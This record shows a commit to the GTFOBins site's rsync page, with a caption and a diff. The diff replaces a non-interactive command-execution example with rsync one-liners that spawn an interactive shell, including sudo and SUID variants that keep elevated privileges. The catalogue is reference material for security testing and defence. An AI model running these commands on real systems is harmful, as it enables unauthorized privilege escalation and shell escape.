

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rsync.md, in a window 1280 px wide. Shown: the top 778 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Simplify rsync and add interactive execute

```diff
--- a/_gtfobins/rsync.md
+++ b/_gtfobins/rsync.md
@@ -1,9 +1,9 @@
 ---
 functions:
-  execute-non-interactive:
-    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
-            rsync  -e 'sh /tmp/tmpfile' /dev/null 127.0.0.1:/dev/null 2>/dev/null
+  execute-interactive:
+    - code: rsync -e 'bash -c "exec 10<&0 11>&1 0<&2 1>&2; sh -i"' 127.0.0.1:/dev/null
   sudo-enabled:
-    - code: echo "whoami > /tmp/whoami" > /tmp/tmpfile
-            sudo rsync  -e 'sh /tmp/tmpfile' /dev/null 127.0.0.1:/dev/null 2>/dev/null
+    - code: sudo rsync -e 'bash -c "exec 10<&0 11>&1 0<&2 1>&2; sh -i"' 127.0.0.1:/dev/null
+  suid-enabled:
+    - code: ./rsync -e 'bash -p -c "exec 10<&0 11>&1 0<&2 1>&2; sh -i"' 127.0.0.1:/dev/null
 ---
```
